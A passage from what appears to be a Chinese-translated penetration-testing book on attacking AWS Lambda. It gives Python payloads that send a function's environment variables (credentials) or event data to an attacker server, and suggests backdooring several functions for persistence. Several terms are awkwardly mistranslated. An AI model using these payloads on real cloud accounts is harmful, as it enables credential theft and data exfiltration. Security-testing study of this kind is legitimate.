 ```
from botocore.vendored import requests
```

现在，我们可以正常访问`requests`库了。因此，按照我们在本章前面所做的类似方法，我们可以向外部服务器发送一个包含所有环境变量的 HTTP`POST`请求。我们还可以在 Lambda 函数中运行 AWS API 调用并过滤输出，这在技术上更安全，因为 API 调用将来自预期的相同 IP 地址，而不是我们的外部攻击 IP；然而，拉取环境变量更通用，并且随着时间的推移对函数的修改更少，因此我们将继续这样做。下面的有效负载将实现这一点（我们再次假装`1.1.1.1`是外部服务器的 IP）：

```
try:
    import os
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=os.environ.copy(), timeout=0.01)
except:
    pass
```

使用`requests`库发送 HTTP`POST`请求，该请求包含操作系统库获取的环境变量，超时设置为`0.01`发送请求；代码立即继续，而不是等待任何响应并导致 Lambda 函数本身超时。将此有效负载添加到目标 Lambda 函数后，我们只需等待函数通过正常方式被调用，最终，我们将获得发送到服务器的凭据：

![](Images/286eb121-c4d3-46c6-ba28-336429a9dc39.png)

接收包含 Lambda 函数的所有环境变量的 POST 请求

# 数据外泄

数据过滤的工作方式可能与我们之前升级特权的方式非常相似，因为我们很可能编辑现有函数并从中过滤数据。我们有很多不同的方法可以做到这一点，下面列出了其中一些方法：

*   修改现有函数，并通过`"event"`和`"context"`参数过滤它正在接收的数据
*   创建一个新函数和相关触发器，以响应 AWS 环境中的某些事件，例如在[第 11 章](11.html)中，*使用 Boto3 和 Pacu 来维护 AWS 持久性*，其中我们在每次创建新用户时都会过滤凭证
*   修改现有函数并将我们的 Exchange 有效载荷放在函数的中间位置，以释放在函数正常执行期间收集/修改的数据。

这里还有许多其他的攻击向量；你只需要有创造力。

如果我们只是想让有效负载过滤传递给`"event"`参数的值，我们可以使用之前有效负载的稍微修改版本：

```
try:
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=event, timeout=0.01)
except:
    pass
```

确保知道为正在使用的 Lambda 函数指定的超时。您不希望您的 Exfilter 花费太长的时间，以致 Lambda 函数超时并同时失败，因此，当您通过 Lambda Exfilter 大量数据时，最好是确保超时时间已设置为很长的时间，或者自行修改以增加超时时间。问题是，目标公司的 Lambda 账单会上涨，因为他们的功能比正常情况下需要更长的时间才能完成，这会引起您的注意。

# 坚持不懈

我们不打算深入探讨持久性，因为我们在上一章中已经介绍了持久性，但是，与其他攻击 Lambda 的方法一样，可以使用新的 Lambda 函数或编辑现有的 Lambda 函数来建立持久性。坚持也可能意味着一些不同的事情。您是希望对 Lambda 函数的 bash shell 进行持久访问，还是希望对 AWS 环境进行持久访问，还是两者都要？这一切都是关于上下文以及什么最适合作为攻击者的情况。它甚至可能是有价值的后门多个 Lambda 功能，以防一个被抓住，并删除了一个后卫。

# 偷偷摸摸
